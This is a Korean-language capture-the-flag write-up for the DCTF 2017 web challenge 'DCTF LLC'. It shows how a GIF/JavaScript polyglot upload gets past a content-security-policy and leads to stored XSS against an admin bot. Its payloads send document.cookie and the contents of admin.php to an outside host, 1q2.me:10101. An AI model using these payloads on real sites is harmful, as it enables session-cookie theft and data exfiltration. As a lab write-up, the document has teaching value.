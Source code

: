 # [WEB] DCTF 2017 - DCTF LLC

# Description
We are looking for your feedback about our new amazing company! :-) 
Update 11:00 EEST: Do you see what the "admin" is seeing?

# Analysis
문제 페이지에 접속하면 이름, 이메일, 내용 그리고 파일을 하나 첨부할 수 있다.
파일의 경우 500kb미만의 파일과 이미지 파일만 지원하며 간단한 테스트를 해본 결과 File signature만 체크한다.
> 참고 : https://en.wikipedia.org/wiki/List_of_file_signatures

우선 파일을 업로드 하고 Submit하면 Response Header에 재밌는 부분이 생성된다.
```
content-encoding:gzip
content-length:1159
content-security-policy:default-src 'none'; img-src 'self' *.imgur.com *.ibb.co; script-src 'self'; connect-src 'self'; style-src 'self' fonts.googleapis.com fonts.gstatic.com 'unsafe-inline'; font-src 'self' fonts.gstatic.com  fonts.googleapis.com;
content-type:text/html; charset=UTF-8
date:Wed, 04 Oct 2017 05:46:17 GMT
server:nginx/1.10.3 (Ubuntu)
status:200
strict-transport-security:max-age=31536000; includeSubdomains
vary:Accept-Encoding
x-content-type-options:nosniff
x-frame-options:DENY
x-xss-protection:1; mode=block
```
주의해서 볼 헤더는 `content-security-policy`이다.
페이지에서 img태그 쓸 시에 참조할 외부 자원은 서버 내, \*.imgur.com, \*.ibb.co이며,
script쓸 시 참조할 외부 자원은 서버 내 뿐이다.
즉 content-security-polity헤더를 통해 외부 자원을 차단하는 것이다.
하지만 우리는 파일을 업로드 할 수 있으며, 그 파일은 **서버 내부**에 들어가게 된다.
우리는 이를 이용하여 script를 통해 서버에서 불러올 수 있게 된다.

# Exploit
1. XSS using image upload

## 1. XSS using image upload
우선 다음과 같은 gif파일을 하나 생성한다.
```
GIF89a=0;location.href='http://1q2.me:10101/'+document.cookie;
```

이제 생성한 파일을 서버에 업로드하여 Submit하면 업로드된 이미지의 경로를 확인할 수 있다.
```html
<h4>Message Sent. Here's the preview:</h4>
<div>
    Name: shpik<br>
    Email: shpik.korea@gmail.com<br>
    Message: HELLO<br>
    <img src="__3a4bf53d037ba88515303ad785fe0c94/LLC.gif">
</div>
```

파일의 경로를 확인하였으니 Message부분에 XSS를 일으키는 페이로드를 삽입하여 Submit한다.
```html
<script src="__3a4bf53d037ba88515303ad785fe0c94/LLC.gif"></script>
```

수행 결과 cookie에는 내용이 없지만, Request Header에서 또 다른 정보를 얻을 수 있었다.
```
Accept-Encoding: gzip
Connect-Time: 1
Via: 1.1 vegur
Cf-Ray: 3a7bb8703f8e0f81-FRA
Cf-Connecting-Ip: 45.76.95.55
Cf-Visitor: {"scheme":"https"}
X-Request-Id: ec71d7c7-de29-4dd4-aca9-5186fa95060e
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Host: requestb.in
Connection: close
Cookie: __cfduid=d8c8eca22ffed482d0d816ebe7ae673731506696251
Accept-Language: en-US,*
Cf-Ipcountry: DE
Total-Route-Time: 0
Referer: https://llc.dctf-quals-17.def.camp//bot.php?id=3059
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
```

Referer을 보면 bot.php에 의해 해당 스크립트가 실행된 것을 확인할 수 있다.
근데 cookie를 안가지고 있으니, bot을 통해 무언가를 요청해야 할 것 같다.
게싱으로 admin.php를 요청해보니 404가 안뜨길래 이를 요청하기로 했다.
이제 다시 gif의 내용을 변경하여 CSRF를 시도해보자.
```
GIF89a=0;var xhr=new XMLHttpRequest();xhr.open('get','admin.php',false);xhr.send();location.href='http://1q2.me:10101/'+btoa(xhr.responseText);
```

해당 gif를 업로드하고 위와 같은 방법으로 message의 내용으로 Submit한다.
```html
<script src="__6b885533665dcce41bb6c47f22d1d5d1/LLC.gif"></script>
```

서버에서 기다리면 다음과 같은 결과를 받을 수 있다.
`RENURns4MDhmNTBjYTNmMzE4MmEzMGU3NmJiOWZjYzBmZGNiN2Y3NWY0Y2U1OTdmN2FiZTE3OTNlMzk0MmFjZjNlYzllfQ==`

이를 base64 decode하면 flag를 얻을 수 있다.

**DCTF{808f50ca3f3182a30e76bb9fcc0fdcb7f75f4ce597f7abe1793e3942acf3ec9e}**


